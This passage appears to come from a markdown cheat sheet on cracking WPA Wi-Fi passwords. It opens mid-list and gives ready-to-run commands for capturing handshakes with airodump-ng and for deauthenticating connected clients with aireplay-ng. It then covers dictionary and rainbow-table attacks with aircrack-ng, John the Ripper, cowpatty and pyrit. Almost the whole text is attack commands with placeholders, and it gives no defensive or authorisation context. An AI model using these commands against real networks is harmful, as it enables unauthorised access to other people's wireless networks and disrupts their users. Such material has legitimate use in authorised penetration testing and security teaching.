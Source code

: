 2. Capture packets:
```bash
airodump-ng -c <channel> --bssid <AP_MAC> -w wpa_cap mon0
```

3. Deauth client:
```bash
aireplay-ng -0 1 -a <AP_MAC> -c <CLIENT_MAC> mon0
```

### Cracking Tools

#### Aircrack-ng
```bash
aircrack-ng -0 -w wordlist.txt wpa_cap.cap
```

#### John the Ripper with Rules
```bash
./john --wordlist=wordlist.txt --rules --stdout | aircrack-ng -0 -e <ESSID> -w - capture.cap
```

#### Cowpatty
```bash
# Direct cracking
cowpatty -r capture.cap -f wordlist.txt -2 -s <ESSID>

# Rainbow table generation
genpmk -f wordlist.txt -d hashes.db -s <ESSID>

# Rainbow table attack
cowpatty -r capture.cap -d hashes.db -2 -s <ESSID>
```

#### Pyrit
```bash
# Analyze capture
pyrit -r capture.cap analyze

# Strip unnecessary data
pyrit -r capture.cap -o clean.cap strip

# Direct attack
pyrit -r clean.cap -i wordlist.txt -b <AP_MAC> attack_passthrough

# Database preparation
pyrit -i wordlist.txt import_passwords
pyrit -e <ESSID> create_essid
pyrit batch

# Database attack
pyrit -r clean.cap attack_db
```

